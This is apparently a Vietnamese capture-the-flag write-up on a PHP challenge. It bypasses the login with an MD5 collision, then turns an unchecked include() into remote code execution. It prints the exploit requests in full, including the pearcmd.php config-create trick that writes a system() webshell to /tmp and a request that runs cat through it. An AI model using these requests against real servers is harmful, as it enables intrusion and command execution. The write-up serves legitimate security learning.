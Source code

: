 # 1: Bypass login

```
<?php
    if(isset($_POST["submit"])){
        $username = base64_decode($_POST['username']);
        $password = base64_decode($_POST['password']);

        if(($username == $password)){
            echo 'Username and password are not the same';
        }
        else if((md5($username)===md5($password))){
            $_SESSION['username'] = $username;
            header('Location: admin.php?file=1.txt');
        } else {
            echo "Username: " . $username . "<br>";
            echo "Password: " . $password . "<br>";
            echo "Username_MD5: " . md5($username) . "<br>";
            echo "Password_MD5: " . md5($password) . "<br>";
            echo 'Username and password are wrong';
        }
    }
?>```

Đoạn mã php trên cho ta nhập username và password với điều kiện phải khác nhau

Sau đó chương trình dùng 2 hàm 

```
$username = base64_decode($_POST['username']);
$password = base64_decode($_POST['password']);
```

để giải mã 2 đoạn mã ta nhập vào

Sau đó chương trình lại dùng hàm md5 chúng và so sánh chúng, nếu giống nhau 
ta sẽ được chuyển hướng người dùng đến trang `admin.php?file=1.txt` bằng cách sử dụng hàm `header()`.

Ok vậy ở đây làm sao để 2 chuỗi khác nhau có cùng 1 md5_hash?

search thì ta có https://crypto.stackexchange.com/questions/1434/are-there-two-known-strings-which-have-the-same-md5-hash-value

``
> md5sum message1.bin message2.bin
> 008ee33a9d58b51cfeb425b0959121c9 message1.bin
> 008ee33a9d58b51cfeb425b0959121c9 message2.bin
```
Và encode chúng ta được 2 file encode cũng là username và password

![burp.png](images/burp.png)

Ok vậy ta đã có quyền admin

# 2: RCE

```
<?php
    header('Content-Type: text/html; charset=utf-8');
    session_start();
    if($_SESSION['username'] != null){
    if(isset($_GET['file'])){
        $file = $_GET['file'];
        include($file);
    }
    }
    else{
        die("Only admin can use this");
    }
?>
```

Chú ý đến phần 

```
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}
```
Đoạn mã gán giá trị của `$_GET['file']` vào biến `$file` và sử dụng hàm `include($file)` để bao gồm nội dung của tệp tin được chỉ định. Điều này cho phép ta đưa nội dung của một tệp tin vào tệp tin hiện tại.

Ví dụ: Nếu URL chứa tham số file là `example.php?file=content.php`, thì giá trị của `$_GET['file']` sẽ là `content.php`. Đoạn mã `include($file)` sẽ chèn nội dung của tệp tin `content.php` vào tệp tin hiện tại tại vị trí đó.

Ok đầu tiên mình sẽ tạo 1 file và gửi content (webshell) vào file vừa tạo bằng phương thức get 

https://w4rsp1t3.moe/2021/11/26/%E5%85%B3%E4%BA%8E%E5%88%A9%E7%94%A8pearcmd%E8%BF%9B%E8%A1%8C%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E7%9A%84%E4%B8%80%E4%BA%9B%E6%80%BB%E7%BB%93/

GG search thì ta thấy với file `pearcmd.php`

pearcmd.php (hay peclcmd.php) là một công cụ quản lý tiện ích mở rộng bằng command line

![pear.png](images/pear.png)

Ở đây có rất nhiều cmd của pear và với `config-create` ta có thể tạo file mới với 2 tham số đó là đường dẫn đến file pearcmd.php và đường dẫn đến file cần tạo

Đây chính là đoạn mã để ghi và tạo file

```
GET /admin.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=system($_GET[0]);?>+/tmp/asddddd.php HTTP/1.1
```

`/tmp/asddddd.php`: Đường dẫn đến file vừa tạo

`<?=system($_GET[0]);?>`: Content chứa hàm thực thi `system()`

`/usr/local/lib/php/pearcmd.php`: Tham số file với đường dẫn đến `pearcmd.php`

Khi mã này được thực thi, nội dung của tệp tin `pearcmd.php` sẽ được `import` vào tệp tin `admin.php`. Nội dung của tệp tin `pearcmd.php` sẽ được xử lý như mã PHP thường, tương tự như nội dung của `admin.php`. và khi đó ta sẽ thực thi được câu lệnh tạo file như trên với nội dung truyền vào là `<?=system($_GET[0]);?>`

![burp1.png](images/burp1.png)

Vậy là đã tạo được file `asddddd.php` tại đường dẫn /tmp

Tiếp đến chạy đến đường dẫn đó và thực thi lệnh cat flag thôi

```
GET /admin.php?file=/tmp/asddddd.php&0=cat+/flagViTen.txt HTTP/1.1
```

![flag.png](images/flag.png)